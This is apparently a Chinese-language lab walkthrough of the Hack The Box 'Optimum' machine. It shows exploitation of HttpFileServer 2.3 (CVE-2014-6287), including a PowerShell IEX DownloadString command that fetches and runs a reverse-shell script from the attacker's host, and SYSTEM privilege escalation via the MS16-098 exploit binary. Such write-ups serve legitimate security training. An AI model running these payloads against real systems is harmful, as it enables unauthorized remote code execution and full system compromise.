


# 信息搜集

## Nmap

```
root@kali# nmap --min-rate 10000 -p- -Pn 10.10.10.8 -oA scans/ports
...
PORT   STATE SERVICE
80/tcp open  http
...
root@kali# nmap -sT -sC -sV -O -p80 10.10.10.8 -oA scans/details
...
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

开放了80端口并且80端口还开放了HttpFileServer服务.

## WEB页面



查看web页面发现服务的信息使用了HttpFileServer 2.3，Http File Server是专为个人用户所设计的 HTTP文件服务器。

# 漏洞利用

## Searchsploit


此漏洞称为 CVE-2014-6287。

```
root@kali# searchsploit -m  windows/webapps/49125.py
  Exploit: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49125
     Path: /usr/share/exploitdb/exploits/windows/webapps/49125.py
    Codes: CVE-2014-6287
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/tom/桌面/49125.py
root@kali# python3 49125.py 10.10.10.8 80 whoami
http://10.10.10.8:80/?search=%00{.+exec|whoami.}
```

**这里没有给我任何回显，我不确定是否执行成功了，去测试一下吧,本地使用tcpdump监听一下网卡，然后执行一下ping我们自己的命令.**

```
root@kali# python3 49125.py 10.10.10.8 80 "ping 10.10.16.3&quot;
http://10.10.10.8:80/?search=%00{.+exec|ping%2010.10.16.3.}
root@kali# tcpdump -i tun0  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:25:22.516278 IP 10.10.16.3.35656 > 10.10.10.8.http: Flags [S], seq 2814804000, win 64240, options [mss 1460,sackOK,TS val 3571996960 ecr 0,nop,wscale 7], length 0
23:25:22.747740 IP 10.10.10.8.http > 10.10.16.3.35656: Flags [S.], seq 3736611079, ack 2814804001, win 8192, options [mss 1355,nop,wscale 8,sackOK,TS val 122838 ecr 3571996960], length 0
23:25:22.747788 IP 10.10.16.3.35656 > 10.10.10.8.http: Flags [.], ack 1, win 502, options [nop,nop,TS val 3571997191 ecr 122838], length 0
23:25:22.747968 IP 10.10.16.3.35656 > 10.10.10.8.http: Flags [P.], seq 1:143, ack 1, win 502, options [nop,nop,TS val 3571997191 ecr 122838], length 142: HTTP: GET /?search=%00%7B.+exec%7Cping%2010.10.16.3.%7D HTTP/1.1
23:25:23.203303 IP 10.10.10.8.http > 10.10.16.3.35656: Flags [P.], seq 1:219, ack 143, win 257, options [nop,nop,TS val 122884 ecr 3571997191], length 218: HTTP: HTTP/1.1 200 OK
23:25:23.203352 IP 10.10.16.3.35656 > 10.10.10.8.http: Flags [.], ack 219, win 501, options [nop,nop,TS val 3571997647 ecr 122884], length 0
23:25:23.203376 IP 10.10.10.8.http > 10.10.16.3.35656: Flags [.], seq 219:1562, ack 143, win 257, options [nop,nop,TS val 122884 ecr 3571997191], length 1343: HTTP
```

确实是成功被执行了，那就可以确认该漏洞是存在，并且exploit也是可以使用的

## Getshell

根据CVE-2014-6287的提示，这里应该是使用powershell进行回弹一个shell，咱们找一个powershell的利用工具

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.3 -Port 4444
```

我们将这句代码复制下来，粘贴到代码最底部，然后把IP修改为我们自己的IP

然后在本地使用python3开启一个http服务

```
python3 -m http.server 80
```

然后使用exp进行下载

```
root@kali# python3 CVE-49125.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.3/Invoke-PowerShellTcp.ps1')&quot;
http://10.10.10.8:80/?search=%00{.+exec|c%3A%5Cwindows%5CSysNative%5CWindowsPowershell%5Cv1.0%5Cpowershell.exe%20IEX%20%28New-Object%20Net.WebClient%29.DownloadString%28%27http%3A//10.10.16.3/Invoke-PowerShellTcp.ps1%27%29.}

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

成功得到了shell

# 权限提升

使用Windows-Exploit-Suggester工具对目标补丁程序级别与Microsoft漏洞数据库进行比较，以检测目标上可能缺少的补丁程序。

`windows-exploit-suggester.py`:https://github.com/AonCyberLabs/Windows-Exploit-Suggester

```
C:\Users>systeminfo
systeminfo
 
Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ��
System Boot Time:          10/2/2020, 8:43:06 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.458 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.912 MB
Virtual Memory: In Use:    591 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

保存输出为systeminfo.txt

## 执行windows-exploit-suggester.py

```
# 数据库升级
root@kali:~/Windows-Exploit-Suggester# python windows-exploit-suggester.py -u
...
[+] writing to file 2024-05-06-mssb.xls
...
root@kali:~/Windows-Exploit-Suggester# ls
2024-05-06-mssb.xls  LICENSE.md  README.md  systeminfo.txt  windows-exploit-suggester.py
# 查看可利用的漏洞
root@kali:~/Windows-Exploit-Suggester# python windows-exploit-suggester.py --systeminfo systeminfo.txt --database 2024-05-06-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*] 
...
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*] 
...
```

E]表示exploited poc，可以直接用searchsploit获取POC：



经过对比，发现以下漏洞比较合适：

```
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
```

## 执行ms16-098

在这里我使用MS16-098进行提权，exp的下载地址为：https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits/41020.exe, 将文件下载到kali攻击机。

将exp文件上传到靶机,执行41020.exe文件进行提权，成功提权。

```
msf5 > wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
[*] exec: wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
 
--2020-02-04 05:02:23--  https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
Resolving github.com (github.com)... 13.250.177.223
Connecting to github.com (github.com)|13.250.177.223|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe [following]
--2020-02-04 05:02:27--  https://raw.githubusercontent.com/offensive-security/exploitdb-bin-sploits/master/bin-sploits/41020.exe
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.108.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 560128 (547K) [application/octet-stream]
Saving to: ‘41020.exe’
 
41020.exe                                           100%[==================================================================================================================>] 547.00K   756KB/s    in 0.7s    
 
2020-02-04 05:02:28 (756 KB/s) - ‘41020.exe’ saved [560128/560128]
 
msf5 > sessions 3
[*] Starting interaction with 3...
 
meterpreter > upload 41020.exe
[*] uploading  : 41020.exe -> 41020.exe
[*] Uploaded 547.00 KiB of 547.00 KiB (100.0%): 41020.exe -> 41020.exe
[*] uploaded   : 41020.exe -> 41020.exe
meterpreter > shell
Process 2612 created.
Channel 4 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
 
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
 
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
 
C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```